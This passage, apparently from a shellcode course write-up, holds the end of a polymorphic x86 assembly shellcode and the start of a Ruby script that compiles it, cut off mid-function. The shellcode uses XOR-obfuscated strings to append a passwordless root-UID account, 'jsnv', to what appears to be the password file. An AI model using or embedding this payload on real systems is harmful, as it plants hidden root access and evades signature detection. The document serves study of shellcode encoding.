 ```nasm
  mov ebx, esp                  ; ebx = esp address
  inc cl                        ; ecx = 0x1
  mov ch, 0x4                   ; ecx = (00000001 | 00002000) = 0x401
                                ; source: /usr/include/asm-generic/fcntl.h
  int 0x80                      ; syscall open(2)

  ; write(fd, esp, size);
  xchg ebx, eax                 ; ebx = fd; eax = esp address
  xchg eax, ecx                 ; ecx = esp address; eax = 0x401
  sub ax, 0x3fd                 ; eax = 0x4; write(2)
  xor edx, edx                  ; clear edx
  push edx                      ; push NULL
  mov edx, 0x4c4e5f1f           ; prepare edx for  '0::/'
  xor edx, [esp+4]              ; edx = '0::/'
  push edx                      ; esp value  = '0::/'
  xor edx, 0x5954495a           ; edx = 'jsnv'
  mov ecx, edx                  ; ecx = 'jsnv'
  sub edx, 0x3c3e3930           ; edx = '::0:'
  push edx                      ; esp value = '::0:'
  push ecx                      ; esp value = 'jsnv'
  mov ecx, esp                  ; ecx = esp address
  push byte 0xc                 ; size = 12
  pop edx                       ; edx = size
  int 0x80                      ; syscall write(2)

  ; close
  mov al, 0x6                   ; close(2)
  int 0x80                      ; syscall close(2)

  ; exit
  xor eax, eax                 ; clear eax
  inc eax                      ; eax = 0x1
  int 0x80                     ; syscall _exit(2)
```

### Shellcode Testing
Used the [Ruby script](#ruby-script) to make the compilation of the binary easier.

![](add_root_user.gif)

## Ruby Script
The following Ruby script is used for compiling the polymorphic version of the shellcodes:

```ruby
#!/usr/bin/env ruby
# Author: Jason Villaluna

require 'optparse'

def run
  parse_args
  compile_nasm(@original)
  compile_nasm(@poly)
  @original_shellcode = generate_shellcode(@original)
  @poly_shellcode = generate_shellcode(@poly)
  replace_shellcode
  compile_binary
  display_shellcode
rescue OptionParser::MissingArgument
  puts "\e[33mMissing argument:\e[0m"
  @parser.parse %w[--help]
rescue StandardError => e
  puts "\e[31m[-]\e[0m Encountered: \e[31m'#{e.class}' #{e}\e[0m"
```